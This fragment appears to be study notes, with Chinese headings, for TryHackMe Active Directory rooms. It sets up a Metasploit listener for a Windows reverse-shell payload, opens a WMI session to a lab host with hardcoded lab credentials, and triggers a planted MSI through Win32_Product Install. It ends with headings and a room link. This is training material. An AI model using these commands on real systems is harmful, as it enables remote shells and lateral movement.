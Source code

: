 	--> msfconsole -qx "use exploit/multi/handler;set LHOST lateralmovement;set LPORT 4445;set payload windows/x64/shell_reverse_tcp"	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	啟動針對 THMIIS 的WMI會話 :	
		$username = 't1_corine.waters';
		$password = 'Korine.1994';
		$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
		$credential = New-Object System.Management.Automation.PSCredential $username,$securePassword;
		$Opt = New-CimSessionOption -Protocol DCOM
		$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	從 Win32_Product 類別呼叫 Install 方法來觸發有效負載 :	
	Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
	
## Exploiting Active Directory
## Persisting Active Directory
## Credentials Harvesting
## hololive
	--> https://tryhackme.com/r/room/hololive(Authentication Relays)
